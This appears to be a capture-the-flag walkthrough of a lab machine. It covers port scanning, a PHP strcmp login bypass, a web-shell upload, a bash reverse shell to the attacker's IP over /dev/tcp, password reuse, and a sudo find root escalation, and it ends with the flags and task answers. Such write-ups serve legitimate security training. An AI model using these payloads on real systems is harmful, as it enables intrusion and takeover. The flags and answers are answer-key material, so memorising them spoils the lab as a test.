

# Markup

## ip

target: 10.129.95.184

attker: 10.10.15.137

## I. Enumeration

```bash
└─$ nmap -vv -p- -Pn --min-rate=1000 -sV 10.129.95.184
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-05 13:59 EST
NSE: Loaded 45 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 13:59
Completed Parallel DNS resolution of 1 host. at 14:00, 13.00s elapsed
Initiating Connect Scan at 14:00
Scanning 10.129.95.184 [65535 ports]
Discovered open port 80/tcp on 10.129.95.184
Discovered open port 22/tcp on 10.129.95.184
Increasing send delay for 10.129.95.184 from 0 to 5 due to max_successful_tryno increase to 4
Connect Scan Timing: About 41.74% done; ETC: 14:01 (0:00:43 remaining)
Increasing send delay for 10.129.95.184 from 5 to 10 due to max_successful_tryno increase to 5
Increasing send delay for 10.129.95.184 from 10 to 20 due to max_successful_tryno increase to 6
Increasing send delay for 10.129.95.184 from 20 to 40 due to max_successful_tryno increase to 7
Completed Connect Scan at 14:01, 78.23s elapsed (65535 total ports)
Initiating Service scan at 14:01
Scanning 2 services on 10.129.95.184
Completed Service scan at 14:01, 6.60s elapsed (2 services on 1 host)
NSE: Script scanning 10.129.95.184.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 14:01
Completed NSE at 14:01, 1.24s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 14:01
Completed NSE at 14:01, 1.19s elapsed
Nmap scan report for 10.129.95.184
Host is up, received user-set (0.29s latency).
Scanned at 2023-03-05 14:00:02 EST for 87s
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE   REASON      VERSION
22/tcp    open     ssh       syn-ack     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http      syn-ack     Apache httpd 2.4.29 ((Ubuntu))
2041/tcp  filtered interbase no-response
46636/tcp filtered unknown   no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.64 seconds
                                                          
```

## Directory listing at web server

`http://10.129.95.184/login/`



## login.php.swp

A `.swp` file is a temporary file created by Vim when editing a file. use `vim -r` to recover.

`vim -r login.php.swp`

```php
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
?>
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="utf-8">
...
```

## strcmp() problem

references: [link](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016)

```http
POST /login/login.php HTTP/1.1

username[]=%22%22&password[]=%22%22

HTTP/1.1 302 Found
Location: /upload.php
```

## file upload vulnerabilities => reverse shell

upload: `/usr/share/webshells/php/simple-backdoor.php`

find upload location using gobuster => `/_uploaded`:

```bash
└─$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.129.95.184 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.184
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/05 14:39:08 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/_uploaded            (Status: 301) [Size: 318] [--> http://10.129.95.184/_uploaded/]

```

check:

```http
GET /_uploaded/simple-backdoor.php?cmd=cat+/etc/passwd HTTP/1.1

HTTP/1.1 200 OK

<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

netcat listen:

```bash
└─$ nc -lvp 4242
listening on [any] 4242 ...

```

request `cmd=/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.137/4242 0>&1'`:

```http
http://10.129.95.184/_uploaded/simple-backdoor.php?cmd=%2fbin%2fbash%20-c%20'bash%20-i%20%3e%26%20%2fdev%2ftcp%2f10.10.15.137%2f4242%200%3e%261'
```

result:

```bash
└─$ nc -lvp 4242
listening on [any] 4242 ...
ls
10.129.95.184: inverse host lookup failed: No address associated with name
connect to [10.10.15.137] from (UNKNOWN) [10.129.95.184] 60990
bash: cannot set terminal process group (1154): Inappropriate ioctl for device
bash: no job control in this shell
www-data@base:/var/www/html/_uploaded$ whoami
whoami
www-data
```

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## www-data => normal user

```bash
www-data@base:/var/www/html$ cat login/config.php
cat login/config.php
<?php
$username = "admin";
$password = "thisisagoodpassword";
```

check if this password is also john's password:

```bash
www-data@base:/var/www/html$ su john
su john
Password: thisisagoodpassword

john@base:/var/www/html$ 
```

## user flag

```bash
john@base:~$ cat user.txt
cat user.txt
f54846c258f3b4612f78a819573d158e
```

## privilege escalation => root flag

`sudo -l`

```bash
john@base:~$ sudo -l
sudo -l
[sudo] password for john: thisisagoodpassword

Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
```

find exec:

```bash
john@base:~$ sudo find /root -name root.txt -exec cat {} \;
sudo find /root -name root.txt -exec cat {} \;
51709519ea18ab37dd6fc58096bea949
```

## root shell

source: [gtfobins](https://gtfobins.github.io/gtfobins/find/)

```bash
john@base:~$ sudo find . -exec /bin/sh \; -quit
# whoami
root
```

## Task

Task 1: Which two TCP ports are open on the remote host?: `22,80`

Task 2: What is the URL for the login page?: `/login/login.php`

Task 3: How many files are present in the '/login' directory?: `3`

Task 4: What is the file extension of a swap file?: `.swp`

Task 5: Which PHP function is being used in the backend code to compare the user submitted username and password to the valid username and password?: `strcmp()`

Task 6: In which directory are the uploaded files stored?: `/_uploaded`

Task 7:Which user exists on the remote host with a home directory?: `john`

Task 8: What is the password for the user present on the system?: `thisisagoodpassword`

Task 9: What is the full path to the command that the user john can run as user root on the remote host?: `/usr/bin/find`

Task 10: What action can the find command use to execute commands?: `exec`

Submit user flag: done

Submit root flag: done

## References

find exec: <https://www.baeldung.com/linux/find-exec-command>
